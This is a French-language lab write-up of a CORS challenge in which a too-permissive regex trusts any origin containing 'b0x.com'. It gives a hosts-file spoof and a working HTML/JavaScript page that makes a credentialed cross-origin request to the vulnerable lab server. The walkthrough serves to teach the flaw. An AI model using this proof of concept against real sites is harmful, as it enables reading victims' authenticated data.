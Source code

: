 # Application has bad "regex" Implementation to check Trusted Origin

Le second challenge propose une mauvaise configuration causée par l'utilisation d'une regex trop permissive :

![](../../../.gitbook/assets/d14588e5febcb7025ae9a4e2b24665b6.png)

En effet, il suffit simplement que le site (le nom de domaine) demandant la ressource possède l'occurrence `b0x.com`  pour être autorisé à accéder Sans cela, la requête sera bloquée par CORS :

![](../../../.gitbook/assets/00426f4f44f8eda143947717833de22e.png)

Pour simuler un nom de domaine malicieux mais contenant l'occurrence souhaité, je modifie mon fichier `/etc/hosts` :

```
192.168.56.182    maliciousb0x.com
```

Le script hébergé sur le serveur malicieux reste le même que pour le précédent challenge :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Bad regex implementation</title>
  </head>

  <body>
    <script>
      var xhr = new XMLHttpRequest();

      xhr.open('GET', 'http://192.168.56.184/bad_regex.php', true);
      xhr.withCredentials = true;

      xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
          console.log(xhr.response);                    
        }
      }

      xhr.send();
    </script> 
  </body>
</html>
```

Le contenu du site vulnérable s'affiche bien dans la console lorsque la victime visite la page malicieuse :

![](../../../.gitbook/assets/1376c16a672bb6b061693e3b29c34a82.png)

La réponse lors de l'accès à la ressource contient bien l'entête CORS attendu :

![](../../../.gitbook/assets/c43a68d72fd288fa598ec1ee54b3d5c8.png)
